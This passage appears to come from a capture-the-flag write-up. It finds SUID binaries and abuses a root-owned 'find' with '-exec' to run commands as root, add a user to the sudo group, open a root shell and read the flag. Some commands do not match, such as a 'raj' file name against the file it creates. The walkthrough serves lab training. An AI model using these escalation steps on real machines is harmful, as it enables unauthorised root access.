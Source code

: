 The next method I usually go for is finding any interesting SUID binaries. This is a great article about SUID Binaries:

[SUID Binaries](https://recipeforroot.com/suid-binaries/)

Here is the following command to list all SUID binaries on the system:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![suid find](https://imgur.com/WjvfBIM.png)

I understand that "/usr/bin/find" can be exploited.

## Privilege Escalation Using Find SUID Binary

The exploitation of this binary is quite straight forward. We can use the command "find" with sudo rights. Let's create a dummy file called cybergoat.txt in stoners home directory:

<pre>touch cybergoat.txt</pre>

And let's use the following command to "find" that file and execute our own command:

<pre>find raj -exec "whoami" \;</pre>

![whoami](https://imgur.com/SgV8El0.png)

That's great, we have successfully executed whoami as root. The following command adds a user to the Sudo Group on Linux:

<pre>usermod -aG sudo [user]</pre>

So let's add that into the find command:

<pre>find cybergoat.txt -exec usermod -aG sudo stoner \;
su stoner</pre>

![sudo](https://imgur.com/dYW4d1C.png)

As you can see, we can execute any command as sudo. Now we can get a root shell and find the last flag:

<pre>sudo /bin/bash
cd /root
cat root.txt</pre>

![root](https://imgur.com/AMWyPsK.png)
